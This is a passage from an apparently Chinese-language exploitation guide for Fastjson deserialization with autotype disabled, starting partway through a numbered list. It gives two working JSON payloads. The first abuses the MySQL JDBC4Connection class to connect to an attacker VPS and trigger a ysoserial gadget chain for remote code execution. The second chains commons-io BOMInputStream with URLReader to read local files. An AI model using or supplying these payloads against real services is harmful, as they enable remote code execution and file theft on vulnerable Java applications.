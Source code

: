 4）如下两种类不在Mapping中，但是在白名单中，在autotype关闭的情况下，可以利用：一个是mysql的连接类：com.mysql.jdbc.JDBC4Connection(可RCE)、另一个是commons-io的类：org.apache.commons.io.input.BOMInputStream(可读取文件)  
  
5）利用MYSQL连接类  
```
{
  "a":{
    "@type":"com.alibaba.fastjson.JSONObject",
    {
      {
        "@type":"java.lang.AutoCloseable",
        "@type":"com.mysql.jdbc.JDBC4Connection",
        "hostToConnectTo":"vps_ip",
        "portToConnectTo":3306,
        "info":{
          "user":"yso_CommonsCollections5_calc",
          "password":"pass",
          "statementInterceptors":"com.mysql.jdbc.interceptors.ServerStatusDiffInterceptor",
          "autoDeserialize":"true",
          "NUM_HOSTS":"1"
        },
        "databaseToConnectTo":"dbname",
        "url":""
      }
    }
  }
}
```  
  
其中info中的user字段的值为ysoserial的利用链类型，根据情况选择；  
  
6）利用commons-io  
```
{
  "a":{
    "@type":"java.lang.AutoCloseable",
    "@type":"org.apache.commons.io.input.BOMInputStream",
    "delegate":{
      "@type":"org.apache.commons.io.input.ReaderInputStream",
      "reader":{
        "@type":"jdk.nashorn.api.scripting.URLReader",
        "url":"netdoc:///e:/readfile/"
      },
      "charsetName":"UTF-8",
      "bufferSize":1024
    },
    "boms":[{
      "charsetName":"UTF-8",
      "bytes":[99]
    }]
    },
    "address":{
      "$ref":"$.abc.BOM"
    }
}
```  
  